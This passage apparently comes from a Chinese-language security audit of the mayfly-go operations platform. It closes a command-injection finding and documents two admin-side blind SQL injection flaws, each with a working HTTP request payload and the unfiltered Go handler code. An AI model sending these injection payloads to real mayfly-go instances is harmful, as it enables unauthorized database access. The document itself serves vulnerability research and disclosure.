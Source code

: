 可以看到 count 参数没有进行过滤，拼接到了 cmd 变量的后面，造成了命令注入

这个漏洞和上面那个一样，我认为是漏洞，但危害不大，不过这个命令执行后在后台日志里是看不到的。

---

## 后台sql盲注 1处

在后台-账号管理处进行查询

![](../../img/mayfly-go-case/Untitled%205.png)

看下 poc

```go
GET /api/sys/accounts?username=admin%E9%8E%88%27%22%5C%28 HTTP/1.1
Host: 10.211.55.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.9
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjUwODAxMjcsImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.qf3LuOfc7-kZYYQVXZ6TSx3CGZLXKhoN_2kG1PUGhyI
Referer: http://10.211.55.3:8888/
Accept-Encoding: gzip
```

测一下，可以跑出来

![](../../img/mayfly-go-case/Untitled%206.png)

定位到代码中看下问题 server/internal/sys/api/account.go

```go
// @router /accounts [get]
func (a *Account) Accounts(rc *ctx.ReqCtx) {
	condition := &entity.Account{}
	condition.Username = rc.GinCtx.Query("username")
	rc.ResData = a.AccountApp.GetPageList(condition, ginx.GetPageParam(rc.GinCtx), new([]vo.AccountManageVO))
}
```

无任何过滤

这个注入影响平台本身，还是有些危害的。

---

## 后台sql盲注 2处

后台 数据操作处

![](../../img/mayfly-go-case/Untitled%207.png)

```
GET /api/dbs/13/t-index?db=mayfly-go&id=13&tableName=t_sys_role_resource%27and%27n%27%3D%27n HTTP/1.1
Host: 10.211.55.3:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.9
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjUwODAxMjcsImlkIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.qf3LuOfc7-kZYYQVXZ6TSx3CGZLXKhoN_2kG1PUGhyI
Referer: http://10.211.55.3:8888/
Accept-Encoding: gzip
```

